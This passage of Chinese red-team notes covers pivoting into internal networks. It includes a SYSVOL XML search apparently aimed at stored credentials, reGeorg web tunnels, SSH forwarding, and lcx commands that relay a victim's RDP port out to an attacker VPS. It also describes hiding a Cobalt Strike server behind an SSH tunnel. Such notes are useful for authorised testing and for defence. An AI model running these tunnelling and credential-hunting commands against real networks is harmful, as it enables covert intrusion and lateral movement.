    ```shell for /r \\dc/sysvol %i in (*.xml) do @echo %i```
socks这个也好用，挂代理后windows下proxifier，linux下proxychains挂上就行，但是默认监听公网的...还没找到如何监听本地

#### **reGeorg**

通过http/https进行代理访问内网，具体的为上传一个服务器解析的tunnel，通过运行 `python reGeorgSocksProxy.py -p 1080 -u http://xx.xx.xx.xx/tunnel.jsp`

#### SSH

> SSH可以做转发，之前也整理过，不过没有发到博客里面。主要分为本地转发，远程转发，动态转发

本地转发：
`ssh -CfNg -L 本机端口1:本机地址:本机端口2 账号@IP地址`
将本机端口2转发到本机端口1
远程转发：
`ssh -CfNg -R 本地端口:目标地址:目标端口 账号@IP地址`
将内网服务器的地址转发到外网端口
动态转发：
`ssh -qTfnN -D 本地端口 账号@ip地址`
将任意端口转发至本地端口，常见的就是挂代理后用代理工具访问。例如我将cobaltstrike开启后限制外网IP访问，只能通过ssh动态转发打通隧道后访问，防止被爬取指纹，暴露自己。

#### **EarthWorm**

资料多，不粘贴复制了

#### goproxy

> Goproxy也是一款功能齐全的工具，支持多种协议穿透，它的功能可能超过日常转发所需，但是不报毒嘛...

#### lcx

| 方式 |                             命令                             |
| :--: | :----------------------------------------------------------: |
| 反向(外部vps) | `外部VPS：lcx.exe -listen 1111 2222`|
| 反向(受害者)|`受害者：lcx.exe -slave VPSip 1111 127.0.0.1 3389`|
|反向(使用方法)|访问本地2222端口即访问受害者3389端口|
| 正向 | `lcx.exe -tran 1111 2.2.2.2 8080`|
|正向(使用方法)|访问本地1111端口就是2.2.2.2的8080端口|

#### Mssql

> clr相关[项目地址](https://github.com/blackarrowsec/mssqlproxy)

想起看 Mssql 命令执行的方法时，里面就有CLR，首先为了表示尊敬，贴上[参考文章1](https://xz.aliyun.com/t/7534#toc-10)，[参考文章2](https://xz.aliyun.com/t/6682)

##### 什么是clr

CLR(common language runtime)即公共语言运行库，从SQL Server 2005(9.x) 开始，集成了CLR组件，意味着可以使用任何 .NET Framework语言来编写存储过程、触发器、用户定义类型、用户定义函数、用户定义聚合和流式表值函数

流程往往为 制作恶意CLR => 导入程序集 => 利用执行，这里偷个懒，先mark一下。恰巧20200716的时候已经有一个小哥做了[分析](https://xz.aliyun.com/t/7993)，后面我去看看！

### 代理工具

windows下我用proxifier

![image](\./imgs/proxifier.png)

linux下为proxychains

## 0x04 权限提升
   ```